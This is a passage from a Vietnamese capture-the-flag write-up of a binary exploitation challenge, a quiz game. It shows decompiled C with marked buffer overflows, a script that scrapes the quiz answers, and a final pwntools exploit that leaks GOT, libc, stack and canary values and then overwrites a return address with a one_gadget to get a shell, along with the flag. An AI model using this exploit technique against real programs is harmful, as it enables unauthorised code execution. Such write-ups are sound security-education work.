          printf("Added to log: %s\n", buf);
          snprintf(g_player_activity_log, 0x40u, "You have reached rank %d\nYour thoughts: %s", g_player_rank, buf);
        }
      }
    }
  }
  else
  {
    puts("No player yet! Please create a character first.");
  }
  return stack_canary - __readfsqword(0x28u);
}
```

```c
unsigned __int64 create_new_player()
{
  ssize_t bytes_read; // [rsp+8h] [rbp-58h]
  char name_buffer[72]; // [rsp+10h] [rbp-50h] BYREF
  unsigned __int64 stack_canary; // [rsp+58h] [rbp-8h]

  stack_canary = __readfsqword(0x28u);
  timeout_handler();
  printf("Enter your name: ");
  bytes_read = read(0, name_buffer, 0x40u);
  if ( bytes_read > 0 )
  {
    if ( name_buffer[bytes_read - 1] == 10 )
      name_buffer[bytes_read - 1] = 0;
    g_player_score = 100;
    g_quizzes_passed_current_rank = 0;
    g_player_rank = 1;
    g_total_quizzes_passed = 0;
    strncpy(g_player_name, name_buffer, 0x40u);
    strcpy(g_player_activity_log, "You are ready for the knowledge challenge.");
    g_player_welcome_message = (&g_welcome_messages_array)[rand() % 8];
    g_is_player_created = 1;
    printf("Welcome, %s!\n", g_player_name);
  }
  return stack_canary - __readfsqword(0x28u);
}
```

```c
int view_player_info()
{
  if ( !g_is_player_created )
    return puts("No player yet! Please create a character first.");
  timeout_handler();
  puts("\n=== Player Information ===");
  printf("Name: %s\n", g_player_name);
  printf("Score: %u\n", g_player_score);
  printf("Quizzes Passed: %d\n", g_quizzes_passed_current_rank);
  printf("Rank: %d\n", g_player_rank);
  printf("Activity Log: ");
  __printf_chk(1, g_player_activity_log);
  putchar(10);
  return puts(g_player_welcome_message);
}
```

```c
unsigned __int64 edit_player_name()
{
  size_t v1; // [rsp+8h] [rbp-98h]
  char new_name_buffer[136]; // [rsp+10h] [rbp-90h] BYREF
  unsigned __int64 stack_canary; // [rsp+98h] [rbp-8h]

  stack_canary = __readfsqword(0x28u);
  if ( g_is_player_created )
  {
    if ( g_player_rank > 4 )
    {
      timeout_handler();
      printf("Enter new name: ");
      if ( fgets(new_name_buffer, 128, stdin) )
      {
        v1 = strlen(new_name_buffer);
        if ( v1 && new_name_buffer[v1 - 1] == 10 )
          new_name_buffer[v1 - 1] = 0;
        strcpy(g_player_name, new_name_buffer); // [BUG] Buffer Overflow; sizeof(g_player_name) = 64
        puts("Player information updated!");
      }
    }
    else
    {
      puts("You need to reach rank 5 to edit player information!");
    }
  }
  else
  {
    puts("No player yet! Please create a character first.");
  }
  return stack_canary - __readfsqword(0x28u);
}
```

### 0x02 Crawl all questions

Để chơi được challenge này, mình phải crawl được toàn bộ câu hỏi và đáp án đúng của nó thì mới có thể lên rank được. Công việc này mình đã nhờ ChatGPT code hộ và lấy được tổng cộng 48 bộ đề. Như này là đủ để mình có thể trả lời đúng toàn bộ câu hỏi. 

```python
#!/usr/bin/env python3

from pwn import * 
import time
import hashlib
import json
import random
import os
import re

HOST = "pwn4.cscv.vn"
PORT = 9999
KNOWLEDGE_FILE = "questions.json"
PLAYER_NAME = b"ducdatdau" 
TOTAL_QUESTIONS = 50

def proof_of_work(p, prefix = '000000'):
    p.recvuntil(b"Challenge: ")
    challenge_string = p.recvline().strip().decode()
    log.info(f"Đang giải PoW cho challenge: {challenge_string}")
    
    nonce = 0 
    while True:
        x_str = str(nonce)
        test_string = challenge_string + x_str
        test_bytes = test_string.encode('utf-8')
        
        hash_obj = hashlib.sha256(test_bytes)
        hash_hex = hash_obj.hexdigest()
        
        if hash_hex.startswith(prefix):
            log.success(f"Tìm thấy X = {x_str}")
            return x_str
            
        nonce += 1
        if nonce % 1000000 == 0:
            log.info(f"Testing {nonce} hash...")
            
def connect_and_login():
    try:
        p = remote(HOST, PORT)
        
        ans = proof_of_work(p)
        p.sendlineafter(b"answer: ", ans.encode())

        p.sendlineafter(b"> ", b"1")
        p.sendlineafter(b"name: ", PLAYER_NAME)

        p.sendlineafter(b"> ", b"3")
        
        return p
        
    except Exception as e:
        log.error(f"Lỗi trong quá trình kết nối hoặc PoW/Login: {e}")
        if 'p' in locals() and p:
            p.close()
        return None

def load_knowledge_base(filename):
    if not os.path.exists(filename):
        return {}
    try:
        with open(filename, 'r', encoding='utf-8') as f:
            db = json.load(f)
    except json.JSONDecodeError:
        log.warning(f"Lỗi đọc file {filename}. Tạo cơ sở dữ liệu mới.")
        return {}
    if not db:
        return {}
    
    first_key = list(db.keys())[0]
    if isinstance(db.get(first_key), dict):
        first_entry = db[first_key]
        needs_migration = "correct_answer" in first_entry or "incorrect_answers" in first_entry
        if needs_migration:
            log.info("Phát hiện 'bộ não' phiên bản cũ. Đang di chuyển...")
            migrated_db = {}
            for q_text, entry in db.items():
                migrated_db[q_text] = {
                    "question": entry.get("question", q_text),
                    "options": entry.get("options", []),
                    "correct_option": None,
                    "incorrect_answers_text": entry.get("incorrect_answers", []) 
                }
            try:
                backup_name = filename + '.old_backup'
                os.rename(filename, backup_name)
                log.info(f"Đã sao lưu 'bộ não' cũ sang {backup_name}")
            except OSError as e:
                log.warning(f"Không thể sao lưu file cũ: {e}. Ghi đè.")
            save_knowledge_base(migrated_db, filename)
            log.info("Di chuyển hoàn tất.")
            return migrated_db
    return db

def save_knowledge_base(db, filename):
    """Lưu 'bộ não' vào file JSON."""
    try:
        with open(filename, 'w', encoding='utf-8') as f:
            json.dump(db, f, indent=4, ensure_ascii=False)
    except Exception as e:
        log.error(f"Không thể lưu 'bộ não' vào {filename}: {e}")

def choose_answer(db, question_text, current_options):
    if question_text not in db:
        db[question_text] = {
            "question": question_text,
            "options": current_options,
            "correct_option": None,
            "incorrect_answers_text": []
        }
    entry = db[question_text]
    
    if entry["correct_option"]:
        correct_index_int = int(entry["correct_option"])
        if 1 <= correct_index_int <= len(current_options):
            chosen_num_str = str(correct_index_int)
            chosen_text = current_options[correct_index_int - 1]
            return chosen_num_str, chosen_text
        else:
            log.warning(f"Index đúng ({correct_index_int}) không hợp lệ! Đặt lại = None.")
            entry["correct_option"] = None

    bad_texts = entry["incorrect_answers_text"]
    possible_options = [(str(i + 1), text) for i, text in enumerate(current_options) if text not in bad_texts]
            
    if not possible_options:
        log.warning(f"Đã loại trừ hết đáp án cho câu: '{question_text}'. Reset và thử lại...")
        entry["incorrect_answers_text"] = []
        possible_options = [(str(i + 1), text) for i, text in enumerate(current_options)]

    return random.choice(possible_options)

def update_knowledge(db, question_text, chosen_num_str, chosen_text, is_correct):
    if question_text not in db: return
    entry = db[question_text]
    if is_correct:
        entry["correct_option"] = int(chosen_num_str)
        entry["incorrect_answers_text"] = []
    else:
        if chosen_text not in entry["incorrect_answers_text"]:
            entry["incorrect_answers_text"].append(chosen_text)

def clean_text(byte_str):
    text = byte_str.decode('utf-8', errors='ignore').strip()
    return re.sub(r'^\d+\.\s*', '', text)

def solve_quiz_attempt(p, knowledge_db):
    try:
        p.recvuntil(b"level up!\n\n") 
        
        for i in range(TOTAL_QUESTIONS): 
            q_num_in_batch = (i % 10) + 1 

            if i > 0 and q_num_in_batch == 1:
                try:
                    log.info("Hoàn thành batch. Chờ LEVEL UP! và Main Menu...")
                    p.recvuntil(b"LEVEL UP!", timeout=5)
                    p.recvuntil(b"> ", timeout=5) # Chờ dấu nhắc Main Menu
                    
                    log.info("Đang chọn '3. Start Challenge' cho batch tiếp theo...")
                    p.sendline(b"3")
                    
                    p.recvuntil(b"level up!\n\n", timeout=5) 
                    
                except EOFError:
                    log.warning("Server ngắt kết nối khi đang chờ menu sau khi level up.")
                    return 'FAIL'
                except Exception as e:
                    log.warning(f"Lỗi khi chờ menu: {e}. Có thể server không như mong đợi.")
                    return 'FAIL'

            try:
                p.recvuntil(f"--- Question {q_num_in_batch} ---".encode(), timeout=10)
                p.recvline() # \n
                question_text = clean_text(p.recvline())
                options = [clean_text(p.recvline()) for _ in range(4)]
                p.recvuntil(b"> ", timeout=5)
            except EOFError:
                log.warning(f"Server ngắt kết nối khi đang chờ câu hỏi {i+1} (batch Q{q_num_in_batch}).")
                return 'FAIL'
            
            if not question_text or len(options) != 4:
                log.error(f"Lỗi phân tích câu hỏi/lựa chọn: {question_text} | {options}")
                return 'FAIL'

            chosen_num_str, chosen_text = choose_answer(knowledge_db, question_text, options)
            p.sendline(chosen_num_str.encode())
            
            log.info(f"[Câu {i + 1}/50] (Batch Q{q_num_in_batch}) Chọn: {chosen_text}")
            
            result_bytes = p.recvline()
            
            if b'You need to try harder' in result_bytes:
                log.warning("Thất bại! Server báo 'You need to try harder'.")
                update_knowledge(knowledge_db, question_text, chosen_num_str, chosen_text, False) # Vẫn học
                return 'FAIL'
            
            is_correct = b"Correct!" in result_bytes
            
            if is_correct:
                log.success(f"[Câu {i + 1}/50] ==> ĐÚNG")
            else:
                log.warning(f"[Câu {i + 1}/50] ==> SAI. (Server: {result_bytes.decode().strip()})")
            
            update_knowledge(knowledge_db, question_text, chosen_num_str, chosen_text, is_correct)
            save_knowledge_base(knowledge_db, KNOWLEDGE_FILE) # Lưu ngay lập tức

        log.success("\n--- HOÀN THÀNH TẤT CẢ 50 CÂU HỎI (5 BATCH) ---")
        return 'SUCCESS'

    except EOFError:
        log.error("\n[LỖI] Server đã đóng kết nối đột ngột.")
        return 'FAIL'
    except Exception as e:
        log.error(f"\n[LỖI] Đã xảy ra lỗi không xác định: {e}")
        return 'FAIL'
    finally:
        save_knowledge_base(knowledge_db, KNOWLEDGE_FILE)

def main():
    knowledge_db = load_knowledge_base(KNOWLEDGE_FILE)
    
    while True:
        correct_count = len([e for e in knowledge_db.values() if e.get("correct_option") is not None])
        log.info(f"Database: {correct_count} correct ans.")
        
        p = connect_and_login()
        
        if p:
            result = solve_quiz_attempt(p, knowledge_db) 
            
            if result == 'SUCCESS':
                break
            
            if result == 'FAIL':
                log.warning("Lượt chạy thất bại. Chờ 2 giây và thử lại...")
                if p:
                    p.close()
                time.sleep(2)
        else:
            log.error("Kết nối hoặc đăng nhập thất bại. Chờ 5 giây và thử lại...")
            time.sleep(5)
            
        knowledge_db = load_knowledge_base(KNOWLEDGE_FILE)

if __name__ == "__main__":
    main()
```

Bộ câu hỏi mình lấy được lưu ở `questions.json` 

### 0x03 Finding the bugs

Chương trình có khá nhiều bug nhưng mình đã không tận dụng hết toàn bộ bug tìm ra được vẫn có thể lấy được shell. Một điều nữa mình không chắc chắn là hàm `load_questions_from_json()` mình không chắc là có bug hay không. 

#### Bug #1: Buffer Overflow in `start_quiz_challenge()`

Nếu `g_player_rank` > 19 và `g_player_score` > 2000 thì bug BOF được kích hoạt khi cho đọc vào `buf[]` 224 byte mặc dù kích thước của nó chỉ 200 byte. 


#### Bug #2: Buffer Overflow in `edit_player_name()`

Chức năng `edit_player_name()` có bug BOF vì đã copy trực tiếp `new_name_buffer` có kích thước 128 byte vào `g_player_name` có size 64 byte. 



Do `g_player_name` nằm trên bss kề với các biến khác nên có thể tận dụng bug này để ghi đè giá trị cho các biến quan trọng như `g_player_score`, `g_player_rank`, … 



#### Bug #3: Memory leak

Do `name_buffer` nằm trên stack, được tái sử dụng mà không memset nên có thể leak được những dữ liệu có ích. 



### 0x04 Building the payload
...

### 0x05 Final script 

```python
#!/usr/bin/env python3

from pwn import * 
import time
import hashlib
import json

elf = ELF('./quiz_patched', checksec=False)
libc = ELF("./libc6_2.39-0ubuntu8.6_amd64.so")
ld = ELF("./ld-2.39.so")

context.binary      = elf
context.arch        = 'amd64'
context.os          = 'linux'
context.aslr        = False 
context.log_level   = 'debug'
context.terminal    =['wt.exe', '-p', 'uterm', '--', 'wsl.exe', '-e']

# p = process(elf.path)
p = remote("pwn4.cscv.vn", 9999)

def GDB():
    gdb.attach(p, gdbscript='''
        # create_new_player
        break *0x0000555555555F17
        # edit_player_name
        break *0x00005555555566EF
        # strcpy in edit_player_name
        break *0x000555555556757
        # view 
        break *0x0000555555556028
        continue
    ''')

    pause()

with open('questions.json', 'r', encoding='utf-8') as f:
    question_db = json.load(f)

def proof_of_work(prefix = '000000'):
    p.recvuntil(b"Challenge: ")
    challenge_string = p.recvline().strip().decode()
    log.info(f"Đang giải PoW cho challenge: {challenge_string}")
    
    nonce = 0 
    while True:
        x_str = str(nonce)
        test_string = challenge_string + x_str
        test_bytes = test_string.encode('utf-8')
        
        hash_obj = hashlib.sha256(test_bytes)
        hash_hex = hash_obj.hexdigest()
        
        if hash_hex.startswith(prefix):
            log.success(f"Tìm thấy X = {x_str}")
            return x_str

        nonce += 1
        if nonce % 1000000 == 0:
            log.info(f"Đã thử {nonce} hash...")

# count = 0
def answer_question_remote():
    p.sendlineafter(b"Game\n> ", b"3")

    for i in range(10):
        p.recvuntil(b"---\n")

        question = p.recvline().strip().decode()
        answer_data = question_db[question]["correct_option"]
        p.sendlineafter(b"> ", str(answer_data).encode())

        # log.info(f"Question[{count}]")
        log.info(f"{question} -> {answer_data}")
        # count += 1

def answer_question_local():
    p.sendlineafter(b"Game\n> ", b"3")  
    p.recvuntil(b"---\n")

    question = p.recvline().strip().decode()
    p.sendlineafter(b"> ", b"2")

    log.info(f"{question} -> 2")

def answer_question():
    remote = 1
    if remote: 
        return answer_question_remote()
    else:
        return answer_question_local() 

p.sendlineafter(b"answer: ", proof_of_work().encode())

p.sendlineafter(b"> ", b"1")
p.sendlineafter(b"name: ", b"ducdatdau")

for k in range(10):
    answer_question()

p.sendlineafter(b"> ", b"4")
payload1 = b"A" * 64 + p64(0x1111111122222222) + p64(0xffffffff33333333)[:-1]
p.sendlineafter(b"new name: ", payload1)

answer_question()
p.sendlineafter(b"thoughts: ", b"change 1")

p.sendlineafter(b"> ", b"4")
payload1 = b"A" * 64 + p64(0x1111111122222222) + p64(0xffffffff33333333)[:-2]
p.sendlineafter(b"new name: ", payload1)

answer_question()
p.sendlineafter(b"thoughts: ", b"change 2")

p.sendlineafter(b"> ", b"4")
payload1 = b"A" * 64 + p64(0x1111111122222222) + p64(0xffffffff33333333)[:-3]
p.sendlineafter(b"new name: ", payload1)

answer_question()
p.sendlineafter(b"thoughts: ", b"change 3")

p.sendlineafter(b"> ", b"4")
payload1 = b"A" * 64 + p64(0x1111111122222222) + p64(0xffffffff33333333)[:-4]
p.sendlineafter(b"new name: ", payload1)

answer_question()
p.sendlineafter(b"thoughts: ", b"change 4")

p.sendlineafter(b"> ", b"4")
payload1 = b"A" * 64 + p64(0xfffffffe22222222)
p.sendlineafter(b"new name: ", payload1)

answer_question()
p.sendlineafter(b"thoughts: ", b"change5")

# view
p.sendlineafter(b"> ", b"2")

p.recvuntil(p32(0x01010101))
leak_elf_addr = u64(p.recv(6) + b"\x00\x00")
elf.address = ((leak_elf_addr >> 12) - 3) << 12

log.info(f"leak_elf_addr = {hex(leak_elf_addr)}")
log.info(f"elf_addr = {hex(elf.address)}")

# GDB()

# leak puts_got
p.sendlineafter(b"> ", b"4")
puts_got = elf.got['puts']
payload1 = b"A" * 64 + p64(0x1111111122222222) + p64(0x3333333344444444) + p64(puts_got)
p.sendlineafter(b"new name: ", payload1)

p.sendlineafter(b"> ", b"2")
p.recvuntil(b"change5\n")
leak_puts_addr = u64(p.recv(6) + b"\x00\x00")
log.info(f"leak_puts_addr = {hex(leak_puts_addr)}")
# [*] leak_puts_addr = 0x71f87f7a4be0

# leak read_got
p.sendlineafter(b"> ", b"4")
read_got = elf.got['read']
payload1 = b"A" * 64 + p64(0x1111111122222222) + p64(0x3333333344444444) + p64(read_got)
p.sendlineafter(b"new name: ", payload1)

p.sendlineafter(b"> ", b"2")
p.recvuntil(b"change5\n")
# p.recvuntil(b"change5")
leak_read_addr = u64(p.recv(6) + b"\x00\x00")
log.info(f"leak_read_addr = {hex(leak_read_addr)}")
# [*] leak_read_addr = 0x71f87f838a80

libc.address = leak_puts_addr - libc.symbols["puts"]
log.info(f"libc_address = {hex(libc.address)}")

# leak stack 
p.sendlineafter(b"> ", b"4")
environ = libc.symbols['environ']
payload1 = b"A" * 64 + p64(0x1111111122222222) + p64(0x3333333344444444) + p64(environ)
p.sendlineafter(b"new name: ", payload1)

p.sendlineafter(b"> ", b"2")
p.recvuntil(b"change5\n")
# p.recvuntil(b"change5")
leak_stack_addr = u64(p.recv(6) + b"\x00\x00")
log.info(f"leak_stack_addr = {hex(leak_stack_addr)}")
# 0x7fffffffe128

# leak canary 

p.sendlineafter(b"> ", b"4")
canary_addr = leak_stack_addr - 0x140 + 1
log.info(f"canary_addr = {hex(canary_addr)}")
payload1 = b"A" * 64 + p64(0x1111111122222222) + p64(0x3333333344444444) + p64(canary_addr)
p.sendlineafter(b"new name: ", payload1)

p.sendlineafter(b"> ", b"2")
p.recvuntil(b"change5\n")
# p.recvuntil(b"change5")
leak_canary = u64(b"\x00" + p.recv(7))
log.info(f"leak_canary = {hex(leak_canary)}")

# 0x00007fffffffdfe8│+0x0028: 0xc2666cff952e2100

# GDB()

# shell
answer_question()

one_gadgets = [0x583ec, 0x583f3, 0xef4ce, 0xef52b]
one_gadget = libc.address + one_gadgets[3]
payload = b"A" * 200 + p64(leak_canary) + p64(elf.bss()) + p64(one_gadget)
p.sendlineafter(b"thoughts: ", payload)

p.interactive()
# CSCV2025{H4n0i_C0nv3nt10n_C0un73r1ng_Cyb3rcR1m3_Sh4r1ng_R3sp0ns1b1l1ty_S3cur1ng_0ur_Futur3}
```